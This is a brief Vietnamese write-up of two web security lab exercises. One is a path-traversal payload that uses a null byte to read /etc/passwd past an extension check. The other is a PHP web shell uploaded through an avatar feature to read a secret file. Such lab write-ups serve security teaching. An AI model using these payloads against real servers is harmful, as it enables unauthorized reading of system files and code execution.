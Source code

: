
### **File path traversal, validation of file extension with null byte bypass**

Theo như mô tả, server sẽ kiểm tra đuôi file có hợp lệ không. Do đó ta có thể thử dùng `null byte` để bypass do khi đọc xâu, hàm sẽ đọc đến ký tự `null`.

Gửi payload `../../../../etc/passwd%00.jpg`

![Untitled](writeup_media/Untitled%2012.png)

# **File upload vulnerabilities**

### **Remote code execution via web shell upload**

Tạo file `ava.php` với nội dung

```php
<?php include("/home/carlos/secret");
```

Dùng tính năng thay avatar để upload file lên website và reload website.

![Untitled](writeup_media/Untitled%2013.png)
